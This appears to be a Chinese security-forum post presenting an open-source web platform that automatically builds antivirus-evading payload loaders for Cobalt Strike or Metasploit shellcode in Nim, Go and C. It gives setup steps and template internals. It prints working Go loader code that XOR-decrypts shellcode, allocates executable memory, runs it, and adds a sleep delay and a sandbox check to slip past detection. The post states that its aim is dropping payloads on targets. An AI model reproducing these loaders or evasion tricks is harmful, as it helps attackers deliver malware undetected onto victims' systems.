# AVEvasionCraftOnline 一个基于 Spring boot 的在线免杀生成平台 开源 - 先知社区

AVEvasionCraftOnline 一个基于 Spring boot 的在线免杀生成平台 开源

- - -

一个基于 Spring boot 的在线免杀生成平台  
项目代码完全开源  
支持 3 中语言的免杀代码生成。

-   nim
-   go
-   c

支持扩展模板，增加自定义模板

自带的 nim、go、c 语言生成方式可以绕过国内常见杀软  
自带的 go 模板部分支持三种 shellcode 存储方式（内嵌、本地、远程）

在使用一个开源的免杀项目时候，通常需要将 Cobalt Stirke 中的 shellcode 手动复制到源码里，然后手动编译，还需要花一些时间来搭建环境。

如果有一个网页端，只需要点击按钮就可以生成 Payload。替换、编码、加密的过程会交给后端自动配置，配置完成后返回一个可执行的文件。这样只需要将生成的 Payload 投递在目标上即可。

本项目主要处理的是多语言的生成，加密、编码等处理。这样会提高扩展性。通过手动制作模板，修改配置文件，就可以将不同的载入方式（CreateThread、APC 等等），快速的配置到服务器上，增加多样性。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124184847-26aa142e-baa6-1.png)

## 特点

1、轻松使用

-   通过简单的上传操作，用户可以生成免杀 Payload，无需手动配置和编码。  
    2、时间节省
-   减少协作时的环境配置和手动操作，提高效率。  
    3、模板化
-   用户可以通过配置文件快速应用不同的载入方式，增加生成的 Payload 的多样性。

处理流程  
1、传入 bin、模板名字、转换方法、Shellcode 存储位置（内嵌资源、本地资源、远程资源）  
2、对传入的 bin 做转换（加密、编码等操作）  
3、模板预处理：随机函数名称处理、填充转换后的 Shellocode  
4、根据模板名字来对应语言，编译预处理后的模板  
5、将转换后 Shellocde、编译完成的 exe 打包后存储到下载目录  
6、返回下载链接。完成自动处理

## 搭建过程

下载发行版，以下搭建过程基于 Kali Linux 2023.4

### 依赖安装

**nim & c 依赖**

```plain
sudo apt update
sudo apt install mingw-w64

curl https://nim-lang.org/choosenim/init.sh -sSf | sh
# 输入 y 

echo "export PATH=$PATH:/home/kali/.nimble/bin" >> ~/.zshrc
source ~/.zshrc
nimble install winim
# 输入 y
```

**go 依赖**

```plain
wget https://go.dev/dl/go1.21.6.linux-amd64.tar.gz

sudo rm -rf /usr/local/go && sudo tar -C /usr/local -xzf go1.21.6.linux-amd64.tar.gz

echo "export CGO_ENABLED=0" >> ~/.zshrc
echo "export GOOS=windows" >> ~/.zshrc
echo "export GOARCH=amd64" >> ~/.zshrc
echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.zshrc
source ~/.zshrc
```

### 前后端配置

```plain
cd /home/kali
unzip AVEvasionCraftOnline.zip

cd AVEvasionCraftOnline

sudo cp -r dist/* /var/www/html && sudo chown -R www-data:www-data /var/www/html
```

开启模块

```plain
sudo a2enmod proxy
sudo a2enmod proxy_http
sudo a2enmod rewrite
```

编辑 `/etc/apache2/sites-available/000-default.conf` 增加以下配置

```plain
ProxyPass /api http://localhost:8080
        ProxyPassReverse /api http://localhost:8080
        <Directory /var/www/html>
                Options Indexes FollowSymLinks
                AllowOverride All
                Require all granted
        </Directory>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124184957-50afd5c4-baa6-1.png)

重启 Apache 服务器

```plain
sudo systemctl restart apache2
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185005-55a241fc-baa6-1.png)

修改配置文件  
templates-directory、storage-directory、compilerwork-directory 修改为相应的路径

```plain
bypassav:
  templates-directory: /home/kali/AVEvasionCraftOnline/template
  storage-directory: /home/kali/AVEvasionCraftOnline/download
  compilerwork-directory: /home/kali/AVEvasionCraftOnline/compiler
```

启动后端

```plain
java -jar AVEvasionCraftOnline-0.0.1-SNAPSHOT.jar
```

至此完成前端，后端配置

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185014-5a7dfcac-baa6-1.png)

## 模板维护

以自带的 c 语言加载器模板为例，这个模板仅为测试功能，不具备免杀性。可以使用现有的开源项目更换。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185028-6340b0a0-baa6-1.png)

下面是更换方法：  
以 [https://github.com/yutianqaq/x1Ldr/blob/main/BypassAV-1/BypassAV-1.cpp](https://github.com/yutianqaq/x1Ldr/blob/main/BypassAV-1/BypassAV-1.cpp) 为例更换模板配置。  
1、修改 yaml 配置

```plain
c_CreateThread:
      loadMethod:
        - LOCAL
      transformation:
        - xor
```

2、修改 template 中的目录结构

```plain
┌──(kali㉿kali)-[~/AVEvasionCraftOnline/template]
└─$ tree c
c
└── c_CreateThread
    └── xor
        └── LOCAL
            └── c_CreateThread.c
```

> 文件名称必须与模板名称相同，保持目录结构

将 [https://github.com/yutianqaq/x1Ldr/blob/main/BypassAV-1/BypassAV-1.cpp](https://github.com/yutianqaq/x1Ldr/blob/main/BypassAV-1/BypassAV-1.cpp) 中的内容复制到 c\_CreateThread.c 中  
修改为下图中的内容，将文件头 `<Windows.h>` 改为 `<windows.h>`，不然会报错

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185037-68547e78-baa6-1.png)

重启后端 java 程序，刷新页面，可以看到已经更新

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185047-6e2e42b6-baa6-1.png)

测试

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185106-79e12970-baa6-1.png)

下载后得到以下内容

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185113-7dc92da8-baa6-1.png)

对于分离的方式（本地、远程）需要将 xxx.x.bin 改为你在浏览器中输入的资源名称。而 EMBEDDED、REMOTE 方式，可以将 exe 单独投递。LOCAL 模式则需要将资源与 exe 一起投递。

## 基本原理

通过 DTO 来接收上传的数据，由原始 Shellcode、编程语言、模板名称、转换方法、存储类型（内嵌、本地、远程），一个额外参数（用来存储本地/远程资源的文件名）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185123-83e97724-baa6-1.png)

`CompilerController` 的两个 API：`compiler` 与 `download` 负责接收输入的参数与最终结果的下载

在 `shellcodeUpload` 方法中判断传入的编程语言类型来判断下一步要进行的动作。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185128-8721fb5a-baa6-1.png)

1、初始化编译工作目录  
2、转换 shellcode（编码、加密等操作）  
2、将模板复制到工作目录  
3、将转换后的 Shellcode（或资源名称）、用于解密的 Key 等字符串填充  
4、填充后写入模板，完成最终处理。  
5、编译程序、打包 zip 包，通过 download api 返回给使用者

通过 yaml 配置文件来控制模板，这样只需要增加对应的模板，创建相应的目录结构即可完成模板的更新/增加。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185137-8c2771a2-baa6-1.png)  
模板目录结构

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124185142-8f6960dc-baa6-1.png)

## 如何将一个不免杀的源码变为免杀的？

以 go\_VirtualAlloc 模板为例，下面的代码没有对 shellcode 做加密操作，这样的 loader 如果使用 msf 或者 cobaltstrike 生成的 shellcode 或被杀，因为 cobaltstrike msf 的 shellcode 存在时间太长了，已经被各大厂商做了特征识别。

```plain
func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    syscall.SyscallN(Ptr1, 0, 0, 0, 0)
}

func main() {

    ciphertext := []byte{{{Shellcode}}}

    Ldr1(ciphertext)
}
```

我们需要做的就是改变 shellcode 模样，使用多字节 xor 来改变 shellcode。如下所示

在同样的的 api 调用下  
增加一些基础的多字节 xor 就可以完成免杀，已集成在自带模板中  
也可以增加延迟触发（在运行后不会马上请求 c2 服务器）而是等一段时间

```plain
func XorDecrypt(plaintext []byte, key []byte) []byte {
    ciphertext := make([]byte, len(plaintext))
    keyLength := len(key)
    for i, byte := range plaintext {
        keyByte := key[i % keyLength]
        encryptedByte := byte ^ keyByte
        ciphertext[i] = encryptedByte
    }
    return ciphertext
}

func DecryptData(v2 []byte) []byte {
    key := []byte{{{Key}}}
    v222 := XorDecrypt(v2, key)
    return v222
}

func WriteMemory(inbuf []byte, destination uintptr) {
    for index := uint32(0); index < uint32(len(inbuf)); index++ {
        writePtr := unsafe.Pointer(destination + uintptr(index))
        v := (*byte)(writePtr)
        *v = inbuf[index]
    }
}

func Ldr1(calc []byte) {

    mKernel32, _ := syscall.LoadDLL("kernel32.dll")
    fVirtualAlloc, _ := mKernel32.FindProc("VirtualAlloc")
    calc_len := uintptr(len(calc))
    Ptr1, _, _ := fVirtualAlloc.Call(uintptr(0), calc_len, windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_EXECUTE_READWRITE)
    WriteMemory(calc, Ptr1)
    syscall.SyscallN(Ptr1, 0, 0, 0, 0)
}


func Sleeeep()  {
    res := 1
    for i := 0; i < 5; i++ {
        number := rand.Intn(900) + 100
        res *= number
    }
    time.Sleep(10 * time.Second)
}

func main() {

    args := os.Args[0]
    if (args[10] == 92 && (args[0] == 99 || args[0] == 67)) {
        os.Exit(0)
    }

    Sleeeep()

    ciphertext := []byte{{{Shellcode}}}

    byteData := DecryptData(ciphertext)

    Ldr1(byteData)
}
```

现有的代码已经完成基本操作，只需要维护模板即可。  
TODO

-   更多对抗方式持续爆肝中

下载地址 [https://github.com/yutianqaq/AVEvasionCraftOnline](https://github.com/yutianqaq/AVEvasionCraftOnline)
